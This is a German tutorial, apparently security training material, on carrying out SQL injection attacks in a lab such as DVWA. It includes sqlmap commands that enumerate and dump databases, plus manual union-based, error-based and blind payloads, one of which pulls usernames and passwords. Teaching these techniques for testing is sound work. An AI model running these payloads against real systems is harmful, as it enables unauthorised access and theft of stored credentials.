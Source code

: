 # 2. Praxisanleitung – Durchführung eines SQL Injection Angriffs

### 2.1 Vorbereitungen

* **Testumgebung:**\
  Richte eine isolierte Testumgebung ein, z. B. mithilfe von Webapplikationen wie DVWA (Damn Vulnerable Web Application) oder bWAPP, die gezielt für Schulungen und Sicherheitstests gedacht sind.
* **Tools:**\
  Häufig genutzte Tools für SQLi-Tests sind:
  * **Burp Suite:** Zum Abfangen und Modifizieren von HTTP-Anfragen.
  * **sqlmap:** Ein automatisiertes Tool zur Erkennung und Ausnutzung von SQL Injections.
  * **Manuelle Tests:** Durch direkte Manipulation der URL-Parameter oder Formularfelder.

### 2.2 Identifikation einer potenziellen Schwachstelle

1.  **Manueller Test:**\
    Versuche in einer URL oder einem Formular einfache SQL-Injektionen einzubringen. Beispiel:

    ```
    http://example.com/products?id=1'
    ```

    Wird eine Fehlermeldung angezeigt, kann dies ein Hinweis auf unsichere SQL-Abfragen sein.
2. **Analyse der Fehlermeldung:**\
   Fehler, die Datenbank-Informationen preisgeben (z. B. Syntax-Fehler, Stacktraces oder Hinweise auf Datenbanktabellen), bestätigen häufig eine Anfälligkeit.

### 2.3 Einsatz von sqlmap

Sqlmap ist ein leistungsfähiges Werkzeug zur Automatisierung von SQL Injection Angriffen.

1.  **Erste Testanfrage:**\
    Starte sqlmap mit einer URL, die den verdächtigen Parameter enthält:

    ```bash
    sqlmap -u "http://example.com/products?id=1" --batch --risk=3 --level=5
    ```

    * **-u:** URL mit dem verdächtigen Parameter.
    * **--batch:** Automatischer Modus, der Standardantworten verwendet.
    * **--risk** und **--level:** Erhöhen die Intensität der Tests.
2. **Datenbankerkennung:**\
   Sqlmap versucht, den verwendeten Datenbanktyp (z. B. MySQL, MSSQL, PostgreSQL) zu identifizieren.
3. **Erweiterte Optionen:**\
   Um spezifische Tabellen oder Spalten zu extrahieren, können weitere Optionen genutzt werden:
   *   **Liste der Datenbanken abrufen:**

       ```bash
       sqlmap -u "http://example.com/products?id=1" --dbs
       ```
   *   **Tabellen einer spezifischen Datenbank auslesen:**

       ```bash
       sqlmap -u "http://example.com/products?id=1" -D <Datenbankname> --tables
       ```
   *   **Spalten einer Tabelle extrahieren:**

       ```bash
       sqlmap -u "http://example.com/products?id=1" -D <Datenbankname> -T <Tabellenname> --columns
       ```
   *   **Daten aus bestimmten Spalten extrahieren:**

       ```bash
       sqlmap -u "http://example.com/products?id=1" -D <Datenbankname> -T <Tabellenname> -C <Spaltenname> --dump
       ```

### 2.4 Manuelle SQL Injection Techniken

Neben automatisierten Tools können auch manuelle Tests durchgeführt werden. Einige Beispiele:

*   **Union-Based SQL Injection:**\
    Bei dieser Technik werden mehrere SELECT-Abfragen kombiniert, um zusätzliche Daten abzufragen:

    ```sql
    http://example.com/products?id=1 UNION SELECT username, password FROM users--
    ```

    Ziel ist es, Daten aus der Tabelle „users“ anzuzeigen.
*   **Error-Based SQL Injection:**\
    Hier werden SQL-Fehlermeldungen ausgenutzt, um Informationen über die Datenbankstruktur zu erhalten. Beispielsweise könnte eine manipulierte Anfrage:

    ```sql
    http://example.com/products?id=1' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2))a FROM information_schema.tables GROUP BY a)b)--
    ```

    Informationen wie die Datenbankversion preisgeben.
*   **Blind SQL Injection:**\
    Wird eingesetzt, wenn keine Fehlermeldungen angezeigt werden. Hier wird durch bedingte Anfragen (true/false) schrittweise der Inhalt der Datenbank extrahiert:

    ```sql
    http://example.com/products?id=1 AND 1=1  -- funktioniert
    http://example.com/products?id=1 AND 1=2  -- liefert einen anderen Response
    ```

    Mithilfe von Zeitverzögerungen (z. B. `SLEEP(5)`) kann der Angreifer Rückschlüsse ziehen.
